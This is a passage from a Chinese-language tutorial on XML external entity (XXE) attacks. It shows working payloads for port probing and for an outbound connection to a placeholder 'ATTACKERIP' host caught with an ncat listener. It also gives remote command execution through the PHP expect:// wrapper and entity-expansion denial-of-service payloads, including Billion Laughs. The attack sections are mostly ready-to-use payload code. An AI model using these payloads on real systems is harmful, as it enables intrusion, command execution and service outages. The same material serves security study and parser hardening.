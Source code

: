 当然也可以用来探测端口信息，根据响应包的信息，若非 “connection refused” 则表示该端口可能是开放的。

众所周知，有些企业对内网的安全性可能不那么注重。

除了以上的利用，控制服务器对外网发送请求也是有可能成功的。此处可使用 ncat 工具进行测试。

关于 ncat 的使用：ncat - 网络工具中的‘瑞士军刀’

用 ncat 在自己的服务器上开启监听：ncat -lvkp 8081(端口可自定义)

之后便可使用以下语句尝试是否能够建立连接：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://ATTACKERIP:8081/" \[
<!ELEMENT data (#PCDATA)>
\]>
<data>4</data>
```

如果能够建立连接，那么服务器端的 ncat 会收到相应的请求信息。

#### RCE

在安装 expect 扩展的 PHP 环境里执行系统命令，当然其他协议也有可能可以执行系统命令

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe \[
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >\]>
<root>
<name>&xxe;</name>
</root>
```

#### DDoS

支持实体测试：

```
<!DOCTYPE data \[
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
\]>
<data>&a2;</data>
```

如果解析过程变的非常缓慢，则表明测试成功，即目标解析器配置不安全可能遭受至少一种 DDoS 攻击。

##### Billion Laughs 攻击

一个经典的 Dos 攻击 payload：

```
<?xml version="1.0"?><!DOCTYPE lolz \[ <!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
......
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
\]>
<lolz>&lol9;</lolz>
```
